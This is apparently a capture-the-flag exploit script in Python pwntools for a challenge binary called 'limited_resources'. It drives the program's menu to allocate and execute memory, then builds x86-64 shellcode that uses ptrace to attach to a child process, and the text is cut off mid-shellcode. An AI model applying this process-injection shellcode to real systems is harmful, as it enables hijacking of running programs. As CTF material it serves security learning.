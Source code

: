 Script:
```python 
from pwn import *
from time import sleep

context.binary = e = ELF("./limited_resources")

gs="""
set follow-fork-mode parent
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
def create(size: int,perm: int,code: bytes):
	p.sendline(b"1")
	p.sendlineafter(b"How big do you want your memory to be?\n",f"{size}".encode())
	p.sendlineafter(b"What permissions would you like for the memory?\n",f"{perm}".encode())
	p.sendlineafter(b"What do you want to include?\n",code)
	p.recvuntil(b"Wrote your buffer at 0x")
	return int(p.recvuntil(b"\n"),16)
def exec_(addr: int):
	p.sendline(b"3")
	p.sendlineafter(b"Where do you want to execute code?\n",f"{hex(addr)[2:]}".encode())
def get_pid():
	p.sendline(b"2")
	p.recvuntil(b"Child PID = ")
	return int(p.recvline())
PTRACE_TRACEME = 0
PTRACE_SEIZE = 0x4206
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
PTRACE_GETREGS  = 12
PTRACE_SETREGS  = 13
PTRACE_POKEDATA = 5
PTRACE_GETSIGINFO = 0x4202
PTRACE_SETSIGINFO =	0x4203
child_pid = get_pid()
log.success(f"{child_pid}")
shellcode = asm(f"""
mov rcx,0xff00
l:
	nop
loop l
parent:
mov rdi, {PTRACE_ATTACH}
mov rsi, {child_pid}
mov rdx,0
mov r10,0
mov rax,0x65
syscall

mov rcx,0xff00
l1:
	nop
loop l1

```